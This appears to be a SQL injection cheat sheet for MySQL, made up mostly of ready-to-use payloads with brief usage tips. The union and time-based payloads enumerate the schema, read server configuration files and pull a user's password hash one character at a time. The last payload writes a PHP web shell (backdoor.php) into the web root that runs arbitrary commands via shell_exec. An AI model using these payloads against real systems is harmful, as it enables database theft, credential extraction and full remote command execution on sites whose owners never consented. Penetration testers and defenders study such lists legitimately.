 The following examples were tested on MySQL database.

Boolean-based SQLi:

```fundamental
' OR 1=1-- 
```

**Note that MySQL requires a space between the comment symbol and the next character.**

Union-based SQLi:

```fundamental
' UNION SELECT 1, 2, 3, 4-- 

' UNION SELECT 1, concat_ws(' | ', database(), current_user(), version()), 3, 4-- 

' UNION SELECT 1, concat_ws(' | ', table_schema, table_name, column_name, data_type, character_maximum_length), 3, 4 FROM information_schema.columns-- 

' UNION SELECT 1, load_file('..\\..\\apache\\conf\\httpd.conf'), 3, 4-- 
```

Use the union-based SQLi only when you are able to use the same communication channel to both launch the attack and gather results.

The goal is to determine the exact number of columns in the application query and to figure out which of them are displaying to the user.

Time-based SQLi:

```fundamental
' AND (SELECT 1 FROM (SELECT sleep(2)) test)-- 

' AND (SELECT 1 FROM (SELECT CASE current_user() WHEN 'root@localhost' THEN sleep(2) ELSE sleep(0) END) test)-- 

' AND (SELECT 1 FROM (SELECT CASE substring(current_user(), 1, 1) WHEN 'r' THEN sleep(2) ELSE sleep(0) END) test)-- 

' AND (SELECT CASE substring(password, 1, 1) WHEN '$' THEN sleep(2) ELSE sleep(0) END FROM schema.users WHERE id = 1)-- 
```

Use the time-based SQLi when you are not able to see the results.

Inject a simple web shell:

```fundamental
' UNION SELECT '', '', '', '<form method="post" action="./backdoor.php"><input name="command" type="text" value="<?php if (isset($_POST["command"])) { echo $_POST["command"]; } ?>" placeholder="Command"></form><?php if (isset($_POST["command"])) { echo "<pre>"; echo shell_exec($_POST["command"]); echo "</pre>"; } ?>' INTO DUMPFILE '..\\..\\htdocs\\backdoor.php'-- 
```

To successfully inject a web shell, the database user must have a write permission.

**Always make sure to properly close the surrounding code.**

